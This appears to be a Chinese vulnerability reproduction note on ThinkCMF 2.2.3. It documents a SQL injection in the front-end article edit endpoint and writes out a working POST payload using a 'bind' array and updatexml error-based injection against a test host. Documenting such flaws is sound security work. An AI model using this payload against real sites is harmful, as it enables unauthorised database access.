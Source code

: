 ThinkCMF 2.2.3 漏洞合集
=======================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF 2.x

三、复现过程
------------

### 0x01 前台用户文章编辑提交存在注入

#### 0x01.1 漏洞演示

    前台的文章编辑中操作框架注入，所以可以直接sql注入
    url:http://thinkcmf.test/index.php?g=Portal&m=Article&a=edit_post
    post:
    term:123
    post[post_title]:123
    post[post_title]:aaa
    post_title:123
    post[id][0]:bind
    post[id][1]:0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))

![](./resource/THINKCMFX_2.2.3漏洞合集/media/rId26.png)

